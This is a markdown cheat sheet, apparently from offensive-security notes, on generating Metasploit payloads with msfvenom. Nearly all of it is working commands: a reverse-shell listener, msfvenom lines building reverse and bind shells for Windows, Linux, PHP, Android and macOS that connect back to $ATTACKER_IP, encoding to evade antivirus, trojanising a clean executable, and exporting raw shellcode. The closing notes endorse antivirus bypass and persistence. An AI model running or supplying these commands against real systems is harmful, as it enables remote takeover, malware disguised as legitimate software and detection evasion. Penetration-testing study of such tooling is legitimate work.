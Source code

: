 #tool
## Info

- **Type:** Payload generation tool
- **Part of:** Metasploit Framework
- **Common Usage:** Generates shellcode and payloads for exploitation
- **Supports:** Multiple architectures (x86, x64, ARM), platforms (Windows, Linux, macOS, Android), and output formats (EXE, ELF, APK, DLL, etc.)

## Usage

### Listener Setup in Metasploit

Before executing a payload, set up a Metasploit listener to receive the reverse connection:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $ATTACKER_IP
set LPORT 4444
run
```

_Alternatively, use `exploit -j` to run it in the background._

---

### Generating a Basic Reverse Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

- `-p`: Payload type
- `LHOST`: Attacker's IP (listening machine)
- `LPORT`: Listening port for reverse connection
- `-f`: Format of output (e.g., exe, elf, raw, py, etc.)
- `-o`: Output file

---

### Common Payloads

#### Windows Payloads

```bash
# Windows Meterpreter Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe

# Windows Staged Reverse Shell
msfvenom -p windows/shell/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

#### Linux Payloads

```bash
# Linux Reverse Shell (ELF binary)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f elf -o shell.elf

# Linux Bind Shell
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf -o bindshell.elf
```

#### Web Shells (PHP, ASP, JSP)

```bash
# PHP Reverse Shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f raw > shell.php
```

#### Android Payload

```bash
# Malicious APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -o shell.apk
```

#### MacOS Payload

```bash
# MacOS Reverse Shell
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f macho -o shell.macho
```

---

### Encoding Payloads (Bypass AV Detection)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_shell.exe
```

- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Iterations (multiple encoding passes)

---

### Injecting Payloads into Executables

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -x clean.exe -k -f exe -o infected.exe
```

- `-x`: Base executable file
- `-k`: Keep functionality of the original file (can increase detection rate)

---

### Converting Payloads to Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=4444 -f c
```

- Outputs shellcode in **C format** for manual injection

---

### Additional Notes

- **Always test payloads in a controlled environment** before using them
- **Use encoding techniques to bypass antivirus detection**
- **For persistence**, consider combining with `Metasploit Persistence Scripts`
- **To run Metasploit in the background**, use `exploit -j -z`

